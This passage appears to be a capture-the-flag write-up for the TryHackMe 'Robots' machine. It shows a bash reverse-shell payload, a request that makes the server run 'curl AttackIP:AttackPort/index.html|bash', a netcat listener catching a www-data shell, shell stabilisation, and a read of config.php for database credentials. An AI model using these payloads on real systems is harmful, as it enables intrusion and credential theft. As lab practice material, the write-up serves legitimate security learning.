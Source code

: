 <p>
 
- craft a reverse shell<br>
- set up a listener<br>
- use the previous Request updating it</p>

```bash
:~/Robots# echo '/bin/bash -i >& /dev/tcp/AttackIP/AttackPort 0>&1' > index.html
```

<p><em>Request</em></p>

```bash
...
url=http%3A%2F%2FAttackIP%3AAttackPort%2Fcmd.php&cmd=curl%20AttackIP:AttackPort/index.html|bash&submit=Submit+Query
```

<br>
<br>

<h3>Shell</h3>
<h4>Stabilize</h4>

```bash
:~/Robots# nc -nlvp AttackPort
Listening on 0.0.0.0 AttackPort
Connection received on AttackIP 42966
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@robots:/var/www/html/harm/to/self$ which python3
www-data@robots:/var/www/html/harm/to/self$
www-data@robots:/var/www/html/harm/to/self$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
www-data@robots:/var/www/html/harm/to/self$ ^Z
[1]+  Stopped                 nc -nlvp AttackPort
:~/Robots# stty raw -echo; fg
nc -nlvp AttackPort

www-data@robots:/var/www/html/harm/to/self$ export TERM=xterm
```

<h4>config.php</h4>

```bash
www-data@robots:/var/www/html/harm/to/self$ cat config.php
cat config.php
<?php
    $servername = "db";
    $username = "robots";
    $password = "REDACTED";
    $dbname = "web";
// Get the current hostname
$currentHostname = $_SERVER['HTTP_HOST'];

// Define the desired hostname
$desiredHostname = 'robots.thm';

// Check if the current hostname does not match the desired hostname
if ($currentHostname !== $desiredHostname) {
    // Redirect to the desired hostname
    header("Location: http://$desiredHostname" . $_SERVER['REQUEST_URI']);
    exit();
}
ini_set('session.cookie_httponly', 1);

session_start();

?> 
```